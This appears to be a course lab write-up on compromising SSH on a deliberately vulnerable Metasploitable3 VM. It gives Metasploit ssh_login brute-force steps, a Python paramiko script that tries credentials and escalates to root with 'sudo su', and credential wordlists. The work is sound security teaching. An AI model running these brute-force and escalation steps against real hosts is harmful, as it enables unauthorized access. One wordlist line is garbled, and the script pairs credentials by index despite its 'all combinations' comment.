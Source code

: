 ## Setup
Installed Kali Linux installer image from the [official website](https://www.kali.org/get-kali/) and Metasploitable3 UB14.0.4 pre-built image, then created two virtual machines on VritualBox.

Kali Linux comes with Metasploit installed.

Using the command `ip a` on both machines, we can find their IPs as follows:
> **Metasploitable3** 192.168.56.102

> **Kali Linux** 192.168.56.103

## Task 1.1 - Compromising the service with Metasploit
The service that we chose for this project is **SSH (Secure Shell)**. The plan is to brute-force possible passwords using a words list, this is possible because the victim machine, Metasploitable3, does not have a service or daemon in place that prevents access after multiple authentication errors.

1- Validate that the SSH (default port: 22) service is running on the vicitm machine:
```bash
nmap -p 22 192.168.56.102
```
![Output](https://i.imgur.com/DeIKhrm.png)\
As seen, the service SSH is open on port 22.

2- Create a list of possible common Metasploitable3 credentials that we will use to brute-force authentication:
```bash
echo -e 'leah_organa\nluke_skywalker\nhan_solo\nartoo_detoo\nc_three_pio\nben_kenobi\nvagrant\ndarth_vader\nanakin_skywalker\njarjar_binks\nlando_calrissian\nboba_fett\njabba_hutt\ngreedo\nchewbacca\nkylo_ren' > usernames.txt
```
```bash
echo -e 'help_me_obiw@n\nuse_the_f0rce\nsh00t-first\nbeep_b00p\npr0t0c0l\nthats_no_moon\nvagrant\nd@rk_sid3\nyipp33vim passwords.txt\nmesah_p@ssw0rd\nb@ckstab\nmandalorian1\nnot-a-slug12\nhanShotFirst' > passwords.txt
```

3- Launch tool Metasploit:
```bash
msfconsole
```

4- Select the SSH service:
```bash
use auxiliary/scanner/ssh/ssh_login
```

5- Set IP address of target:
```bash
set RHOSTS 192.168.56.102
```

6- Now, we can use the files we created earlier:
```bash
set USER_FILE ~/usernames.txt
set PASS_FILE ~/passwords.txt
```

7- In order to see the output of this attack while it's running, we can enable VERBOSE:
```bash
set VERBOSE true
```
![Metasploit Attack Config](https://i.imgur.com/5WQEKpv.png)\
8- Execute the attack:
```bash
run
```
![Attack Result 1](https://i.imgur.com/l5T8jUE.png)\
![Attack Result 2](https://i.imgur.com/r0NEv1J.png)\
![Attack Result 3](https://i.imgur.com/MGC73JK.png)\
As seen, the Metasploit tool was able to find 3 valid SSH users from the list of common credentials. `boba_fett:mandalorian1`, `jarjar_binks:mesah_p@ssw0rd`, and `vagrant:vagrant`. We can also see that the first two users belong to the users group (GID 100) whereas `vagrant` belongs to a vagrant group (GID 900), this could indicate elevated or privileged access.

9- To test this, we can hook into the session it created, session 1:
```bash
sessions -i 1
```
Check sudo rights:
```bash
sudo -l
```
![Sudo Rights](https://i.imgur.com/ilkIhjs.png)\
As seen, the user `vagrant` can execute all commands passwordless as any user, meaning we can escalate to `root` directly and verify privilege escalation:
```bash
sudo su
whoami
```
![Root Escalation](https://i.imgur.com/vFuEHjm.png)\
This concludes our SSH attack on the Metasploitable3 virtual machine; we were able to successfully brute-force SSH credentials, login, and escalate our permissions to the `root` user.

## Task 1.2 - Compromising the service with a custom script
Since we are familiar with Python, we decided to use it. We did a bit of research and found a library called [paramiko](https://pypi.org/project/paramiko/) which implements the SSHv2 protocol and provides a client. This file is also available as ssh_attack.py in this phase's folder.

```python
# We need these libraries to establish a SSH connection and add delays
import paramiko
import time

# Attack-related data, we copied this from the usernames.txt and passwords.txt
metasploitable3_ip = "192.168.56.102"

usernames = [ "leah_organa", "luke_skywalker", "han_solo", "artoo_detoo", "c_three_pio", "ben_kenobi", "vagrant", "darth_vader", "anakin_skywalker", "jarjar_binks", "lando_calrissian", "boba_fett", "jabba_hutt", "greedo", "chewbacca", "kylo_ren" ]

passwords = [ "help_me_obiw@n", "use_the_force", "sh00t-first", "beep_b00p", "pr0t0c0l", "thats_no_moon", "vagrant", "d@rk_sid3", "yipp33!!", "mesah_p@ssw0rd", "b@ckstab", "mandalorian1", "not-a-slug12", "hanShotFirst!", "rwaaaaawr5", "daddy_issues1" ]

# This method attempts to establish a SSH connection with the username and password provided, if success returns the client connection, otherwise returns None
def attempt_login(user, pw):
    client = paramiko.SSHClient()
    client.set_missing_host_key_policy(paramiko.AutoAddPolicy())

    try:
        client.connect(metasploitable3_ip, username=user, password=pw, timeout=5)
        print("Logging in as", user, pw)
        return client
    except:
        return None

# This method runs the privilege escalation and verification commands, will be used if a valid client is found
def run_cmds(client):
    shell = client.invoke_shell()
    time.sleep(0.5)
    shell.send("sudo su\n")
    time.sleep(0.5)
    shell.send("whoami\n")
    time.sleep(1)
    print(shell.recv(4096).decode())
    shell.close()

# Try all combinations
for i in range(0, len(usernames)):
    usr = usernames[i]
    pwd = passwords[i]
    status = False

    try:
        session = attempt_login(usr, pwd)

        if session:
            run_cmds(session)
            session.close()
            status = True

        # We got SSH banner errors for flooding connections so we added this delay
        time.sleep(1.5)

        print(usr, ":", pwd, status)
    except:
        print(usr, ":", pwd, "SSH error")

print("Complete.")
```
Run this script:
```bash
python ssh_attack.py
```
![Script Result](https://i.imgur.com/NRBFbHo.png)\
As seen, the `vagrant` user (in purple) manages to login and escalate privileges without a password (compromised successfully). The other users (in green), `jarjar_binks` and `boba_fett`, manage to login, but can not escalate privileges without a password due to insufficient permissions.
